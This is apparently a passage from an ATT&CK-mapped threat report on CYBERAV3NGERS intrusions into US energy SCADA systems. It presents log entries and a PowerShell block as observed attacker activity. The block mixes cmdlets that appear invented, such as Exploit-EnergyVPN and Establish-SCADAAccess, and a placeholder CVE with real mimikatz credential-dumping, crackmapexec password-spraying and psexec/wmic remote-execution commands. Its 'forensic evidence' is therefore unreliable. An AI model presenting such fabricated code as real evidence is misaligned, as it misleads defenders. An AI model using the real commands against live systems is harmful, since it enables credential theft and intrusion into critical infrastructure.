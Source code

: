 #### Detection

**Energy Infrastructure Reconnaissance Detection**  
Monitor for systematic scanning activities targeting energy infrastructure networks and unusual reconnaissance patterns affecting power generation and grid control systems.

**Source: ATT&CK data component Network Traffic for technique T1590**

### 3.2. SCADA System Initial Access

| **Timestamp** | November 2024, Ongoing |
|---|---|
| **Techniques** | T1190 Exploit Public-Facing Application to achieve TA0001 Initial Access<br>T1133 External Remote Services to achieve TA0001 Initial Access |
| **Target tech** | Energy Sector SCADA and Control System Networks |

Following comprehensive reconnaissance, CYBERAV3NGERS systematically exploited vulnerabilities in internet-facing energy infrastructure applications and remote access services to establish initial access to power generation and grid control systems. The Iranian actors demonstrated advanced exploitation capabilities targeting energy sector operational technology with emphasis on maintaining stealth and avoiding operational disruption.

Analysis reveals sophisticated exploitation methodology designed to establish persistent access to energy control systems while avoiding detection by security monitoring and operational technology protection systems deployed in energy infrastructure.

**Forensic Evidence - Energy SCADA System Penetration:**
```
CYBERAV3NGERS SCADA Access Evidence:
[2024-11-15] Power Generation Facility Compromise
Target: Coal power plant SCADA network (Midwestern United States)
Exploitation: VPN concentrator vulnerability (CVE-2024-XXXXX)
Access: Administrative credentials for power generation control systems
Stealth: Normal operational status maintained during compromise

[2024-11-22] Grid Control Center Penetration
Target: Regional transmission organization control center
Method: Remote desktop service exploitation and credential harvesting
Access: Grid control and power flow management system access
Intelligence: Regional grid dependency and load distribution analysis
```

**Energy Control System Exploitation Techniques:**
```powershell
# CYBERAV3NGERS energy SCADA exploitation observed
# Systematic targeting of energy operational technology

# Energy Facility VPN Exploitation
$energy_vpn_targets = Get-EnergyInfrastructure | Where-Object {$_.RemoteAccess -eq "VPN"}
ForEach ($target in $energy_vpn_targets) {
    Exploit-EnergyVPN -Target $target.IPAddress -Vulnerability "CVE-2024-XXXXX"
    Establish-SCADAAccess -Target $target -Credentials $compromised_creds
    Maintain-OperationalStealth -Target $target -AvoidDisruption $true
}

# SCADA Authentication Bypass
net user /domain | findstr /i "scada control energy grid"
mimikatz "privilege::debug" "sekurlsa::logonpasswords" | findstr /i "energy"
crackmapexec smb energy_scada_networks.txt -u users.txt -p passwords.txt

# Energy Control System Access
psexec \\scada-primary.powerplant.local cmd.exe
wmic /node:grid-control.transmission.local process call create "cmd.exe"
```
